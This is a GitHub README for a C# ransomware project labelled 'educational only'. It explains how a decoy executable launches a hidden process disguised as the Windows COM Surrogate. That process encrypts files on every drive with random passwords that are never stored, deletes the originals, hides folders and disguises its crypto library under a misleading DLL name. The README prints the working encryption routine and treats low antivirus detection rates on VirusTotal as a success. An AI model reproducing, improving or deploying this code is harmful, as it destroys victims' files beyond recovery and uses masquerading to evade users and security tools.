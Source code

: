 # Ransomware

Ransomware is a project written in C# 4.7 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![GitHub license](https://img.shields.io/badge/license-AGPL-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.

## The stuff behind
The **LustigeFehler.exe** file is the main exe. It will start and show some nonsense error messages.

If it's not run in admin mode, it will crash with an error. If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate) in the background.

Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds.

Additionally, it will **hide** all folders it finds. Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate/COM%20Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
   var alg = SHA512.Create();
   alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
   return BitConverter.ToString(alg.Hash);
}

private void Run()
{
   foreach (var drive in DriveInfo.GetDrives())
   {
      try
      {
         EncryptFs(drive.Name);
      }
      catch
      {
         // ignored
      }
   }
}

private void EncryptFs(string directory)
{
   foreach (var file in Directory.GetFiles(directory))
   {
      try
      {
         if (file == null) continue;
         Msvpc.UseE(GetRandomPassword(), file,
            Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
         File.Delete(file);
      }
      catch
      {
         // ignored
      }
   }

   foreach (var dir in Directory.GetDirectories(directory))
   {
      HideDirectory(dir);
      EncryptFs(dir);
   }
}

private void HideDirectory(string dir)
{
   var di = new DirectoryInfo(dir);
   if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
   {
      di.Attributes |= FileAttributes.Hidden;
   }
}

private bool IsElevated()
{
   var id = WindowsIdentity.GetCurrent();
   return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.

